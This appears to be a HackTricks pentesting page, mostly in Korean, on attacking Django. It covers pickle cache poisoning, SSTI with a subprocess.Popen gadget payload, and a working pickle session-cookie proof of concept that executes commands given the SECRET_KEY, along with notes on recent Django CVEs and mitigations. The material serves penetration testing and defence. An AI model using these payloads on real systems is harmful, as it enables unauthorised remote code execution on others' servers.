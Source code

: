 # Django

{{#include ../../banners/hacktricks-training.md}}

## 캐시 조작을 통한 RCE
Django의 기본 캐시 저장 방식은 [Python pickles](https://docs.python.org/3/library/pickle.html)이며, [untrusted input is unpickled](https://media.blackhat.com/bh-us-11/Slaviero/BH_US_11_Slaviero_Sour_Pickles_Slides.pdf)될 경우 RCE로 이어질 수 있습니다. **공격자가 캐시에 대한 쓰기 권한을 얻을 수 있다면, 이 취약점을 기반 서버에서의 RCE로 확대할 수 있습니다.**

Django 캐시는 [Redis](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/redis.py#L12), [memory](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/locmem.py#L16), [files](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/filebased.py#L16), 또는 [database](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/db.py#L95)에 저장됩니다. Redis 서버나 database에 저장된 캐시는 가장 가능성 높은 공격 벡터(SQL injection 및 Redis injection)이지만, 파일 기반 캐시를 이용해 임의 쓰기를 RCE로 전환할 수도 있습니다. Maintainers는 이를 non-issue로 표시했습니다. 캐시 파일 폴더, SQL 테이블명, Redis 서버 세부정보는 구현에 따라 달라진다는 점을 유의하세요.

이 HackerOne 리포트는 SQLite database에 저장된 Django 캐시를 악용하는 훌륭하고 재현 가능한 예제를 제공합니다: https://hackerone.com/reports/1415436

---

## Server-Side Template Injection (SSTI)
The Django Template Language (DTL) is **Turing-complete**. 만약 사용자 입력 데이터가 *template string*으로 렌더링된다면(예: `Template(user_input).render()`를 호출하거나 `|safe`/`format_html()`로 자동 이스케이프가 제거되는 경우), 공격자는 SSTI → RCE를 완전히 달성할 수 있습니다.

### 탐지
1. `Template()` / `Engine.from_string()` / `render_to_string()`와 같이 *어떤* 미검증 요청 데이터가 포함된 동적 호출을 찾아보세요.
2. 시간 기반 또는 산술 페이로드를 전송하세요:
```django
{{7*7}}
```
렌더된 출력에 `49`가 포함되어 있다면 입력이 템플릿 엔진에 의해 컴파일된 것입니다.

### RCE로 가는 Primitive
Django는 `__import__`에 대한 직접 접근을 차단하지만, Python 객체 그래프에는 접근할 수 있습니다:
```django
{{''.__class__.mro()[1].__subclasses__()}}
```
subprocess.Popen의 인덱스(≈400–500, Python 빌드에 따라 다름)를 찾아 임의의 명령을 실행:
```django
{{''.__class__.mro()[1].__subclasses__()[438]('id',shell=True,stdout=-1).communicate()[0]}}
```
더 안전한 범용 gadget은 `cls.__name__ == 'Popen'`가 될 때까지 반복하는 것이다.

동일한 gadget은 사용자 입력을 잘못 처리하는 **Debug Toolbar** 또는 **Django-CMS**의 템플릿 렌더링 기능에서도 동작한다.

---

### 또한 참조: ReportLab/xhtml2pdf PDF 내보내기 RCE
Django 기반 애플리케이션은 일반적으로 xhtml2pdf/ReportLab을 통합하여 뷰를 PDF로 내보낸다. 사용자 제어 HTML이 PDF 생성으로 흘러들어갈 때, rl_safe_eval은 삼중 괄호 `[[[ ... ]]]` 내부의 표현식을 평가하여 코드 실행을 가능하게 할 수 있다 (CVE-2023-33733). 세부사항, 페이로드, 완화 방안:

{{#ref}}
../../generic-methodologies-and-resources/python/bypass-python-sandboxes/reportlab-xhtml2pdf-triple-brackets-expression-evaluation-rce-cve-2023-33733.md
{{#endref}}

---

## Pickle 기반 세션 쿠키 RCE
설정 `SESSION_SERIALIZER = 'django.contrib.sessions.serializers.PickleSerializer'`가 활성화되어 있거나 pickle을 역직렬화하는 커스텀 serializer가 사용되는 경우, Django는 뷰 코드를 호출하기 **전에** 세션 쿠키를 *복호화하고 unpickle(역직렬화)* 한다. 따라서 유효한 signing key(기본적으로 프로젝트의 `SECRET_KEY`)만 있으면 즉시 원격 코드 실행이 가능하다.

### Exploit Requirements
* 서버가 `PickleSerializer`를 사용한다.
* 공격자가 `settings.SECRET_KEY`를 알고 있거나 추측할 수 있다 (leaks via GitHub, `.env`, error pages, etc.).

### Proof-of-Concept
```python
#!/usr/bin/env python3
from django.contrib.sessions.serializers import PickleSerializer
from django.core import signing
import os, base64

class RCE(object):
def __reduce__(self):
return (os.system, ("id > /tmp/pwned",))

mal = signing.dumps(RCE(), key=b'SECRET_KEY_HERE', serializer=PickleSerializer)
print(f"sessionid={mal}")
```
결과 cookie를 전송하면 payload는 WSGI worker의 권한으로 실행됩니다.

**Mitigations**: 기본 `JSONSerializer`를 유지하고, `SECRET_KEY`를 주기적으로 교체하며, `SESSION_COOKIE_HTTPONLY`를 설정하세요.

---

## Recent (2023-2025) High-Impact Django CVEs Pentesters Should Check
* **CVE-2025-48432** – *Log Injection via unescaped `request.path`* (fixed June 4 2025). 공격자가 로그 파일에 개행문자/ANSI 코드를 몰래 주입하여 하위 로그 분석을 오염시킬 수 있습니다. Patch level ≥ 4.2.22 / 5.1.10 / 5.2.2.
* **CVE-2024-42005** – *Critical SQL injection* in `QuerySet.values()/values_list()` on `JSONField` (CVSS 9.8). JSON 키를 조작하여 인용을 벗어나 임의의 SQL을 실행할 수 있습니다. Fixed in 4.2.15 / 5.0.8.

항상 정확한 프레임워크 버전을 `X-Frame-Options` 오류 페이지나 `/static/admin/css/base.css` 해시로 식별하고, 해당되는 경우 위 항목들을 테스트하세요.

---

## References
* Django security release – "Django 5.2.2, 5.1.10, 4.2.22 address CVE-2025-48432" – 4 Jun 2025.
* OP-Innovate: "Django releases security updates to address SQL injection flaw CVE-2024-42005" – 11 Aug 2024.
* 0xdf: University (HTB) – Exploiting xhtml2pdf/ReportLab CVE-2023-33733 to gain RCE and pivot into AD – [https://0xdf.gitlab.io/2025/08/09/htb-university.html](https://0xdf.gitlab.io/2025/08/09/htb-university.html)

{{#include ../../banners/hacktricks-training.md}}
